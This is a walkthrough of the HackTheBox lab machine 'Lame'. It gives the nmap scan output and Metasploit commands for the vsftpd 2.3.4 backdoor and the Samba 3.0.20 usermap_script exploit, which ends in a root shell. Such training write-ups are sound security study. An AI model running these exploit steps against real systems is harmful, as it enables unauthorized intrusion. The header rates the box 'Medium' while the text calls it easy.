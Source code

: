 ```yaml
---
title: "Lame"
platform: "HackTheBox"
difficulty: "Medium"
date: 2024-02-20
tags: ["metasploit"]
---
```


![infocard](media/lame_infocard.png)

## Introduction

Lame is an easy machine on HackTheBox and one of the earliest boxes available on the platform. It involves exploiting vulnerabilities in the FTP and SMB services to gain root access. This walkthrough will guide you through the process of compromising the Lame machine, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -p- 10.10.10.3 > nmap/service.log
```

**Nmap Results:**

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-30 02:48 EST
Nmap scan report for 10.10.10.3
Host is up (0.36s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h31m25s, deviation: 3h32m08s, median: 1m24s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-11-30T02:50:16-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.11 seconds
```

**Key Services Identified:**

- **FTP (21):** vsftpd 2.3.4
- **SSH (22):** OpenSSH 4.7p1
- **SMB (139, 445):** Samba smbd 3.0.20-Debian

## Exploiting FTP

### Identifying the Vulnerability

The Nmap scan revealed that the FTP service is running vsftpd 2.3.4, which is known to have a backdoor command execution vulnerability.

**Exploit Search:**

![FTP Exploit](media/lame_ftpexploit.png)

### Attempting the Exploit

We used the Metasploit module `exploit/unix/ftp/vsftpd_234_backdoor` to attempt to exploit the vulnerability.

**Metasploit Module Execution:**

```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

**Exploit Failure:**

![FTP Exploit Failed](media/lame_ftpfail.png)

The exploit failed, so we moved on to the next service.

## Exploiting SMB

### Enumerating SMB Shares

We enumerated the SMB shares using `smbclient`.

```bash
smbclient -L //10.10.10.3
```

**SMB Shares:**

![SMB Shares](media/lame_smbshare.png)

We identified two shares: `/tmp` and `/opt`. Accessing `/opt` required a password, but `/tmp` was accessible.

### Identifying the Vulnerability

The Samba service is running version 3.0.20-Debian, which is vulnerable to a username map script vulnerability.

**Exploit Search:**

We found an exploit for this vulnerability on Exploit-DB: [usermap exploit](https://www.exploit-db.com/exploits/16320).

### Exploiting the Vulnerability

We used the Metasploit module `exploit/multi/samba/usermap_script` to exploit the vulnerability.

**Metasploit Module Execution:**

```bash
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > exploit
```

**Root Shell Obtained:**

![Root Shell](media/lame_rootshell.png)

### Understanding the Exploit

The exploit works by sending a username with shell meta-characters to the Samba service, which allows arbitrary command execution. By crafting a payload with a reverse shell, we gained root access.

**Exploit Code Analysis:**

![Exploit Working](media/lame_exworking.png)

## Conclusion

The Lame machine on HackTheBox provided a comprehensive challenge, encompassing service enumeration, FTP and SMB exploitation. By methodically enumerating services and exploiting discovered vulnerabilities, we successfully compromised the machine and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.




